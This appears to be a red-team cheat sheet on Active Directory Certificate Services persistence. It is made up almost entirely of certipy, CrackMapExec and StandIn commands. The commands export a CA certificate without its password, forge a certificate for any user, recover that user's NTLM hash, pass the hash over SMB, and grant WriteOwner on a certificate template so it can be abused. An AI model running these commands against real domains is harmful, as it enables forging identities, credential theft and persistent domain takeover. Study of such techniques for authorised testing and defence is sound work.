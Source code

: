 ### Linux
#### Unprotect pfx file for authentication certipy
```
certipy cert -export -pfx "CA.p12" -password "<PASSWORD>" -out "CA-unprotected.p12"
```

#### Forge certificate
```
certipy forge -ca-pfx 'CA-unprotected.p12' -upn <SAMACCOUNTNAME>@<FQDN DOMAIN> -subject
'<DistinguishedName path>' -out 'forged-ea.pfx' -extensionsid <TARGET OBJECT SID>
```

#### Unpac the hash
```
certipy auth -pfx 'forged-ea.pfx'
```

#### Check access
```
cme smb <FQDN> -u <USER> -H <NTLM HASH>
```

### DPersist3 Configure vulnerable template
- Requires `Enterprise Admin` permissions

#### Add WriteOwner permissions to target template
```
.\StandIn_v13_Net45.exe --adcs --filter <TEMPLATE NAME> --ntaccount "<DOMAIN>\<USER>" --write --add
```

#### Abuse WriteOwner permissions
- [ESC4](windows-ad/Domain-Privilege-Escalation.md#ESC4-Template-ACEs)

